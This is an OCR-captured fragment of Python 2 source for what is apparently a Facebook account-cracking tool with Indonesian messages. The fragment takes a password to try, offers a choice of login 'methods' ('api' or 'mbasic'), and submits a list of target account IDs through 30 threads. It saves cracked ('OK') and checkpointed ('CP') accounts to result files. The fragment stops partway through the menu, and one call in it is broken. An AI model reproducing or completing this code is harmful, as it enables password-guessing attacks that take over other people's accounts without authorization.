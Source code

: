                     print '\n %s[%s×%s] jangan kosong bro kata sandi nya'%(N,M,N)

                elif len(pwek)<=5:

                    print '\n %s[%s×%s] kata sandi minimal 6 karakter'%(N,M,N)

                else:

                    def __yan__(ysc=None): # ycs => Yayan sayang Cindy:3

                        cin = raw_input('\n [*] method : ')

                        if cin == '':

                            print '\n %s[%s×%s] jangan kosong bro'%(N,M,N);__yan__()()

                        elif cin == '1':

                            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)

                            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)

                            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)

                            with YayanGanteng(max_workers=30) as (__yayanXD__):

                                for ikeh in self.id:

                                    try:

                                        kimochi = ikeh.split('<=>')[1]

                                        __yayanXD__.submit(self.__api__, kimochi, ysc)

                                    except: pass

                            os.remove(self.apk)

                            hasil(ok,cp)

                        elif cin == '2':

                            print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)

                            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)

                            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)

                            with YayanGanteng(max_workers=30) as (__yayanXD__):

                                for ikeh in self.id:

                                    try:

                                        kimochi = ikeh.split('<=>')[1]

                                        __yayanXD__.submit(self.__mbasic__, kimochi, ysc)

                                    except: pass

                            os.remove(self.apk)

                            hasil(ok,cp)

                        elif cin == '3':
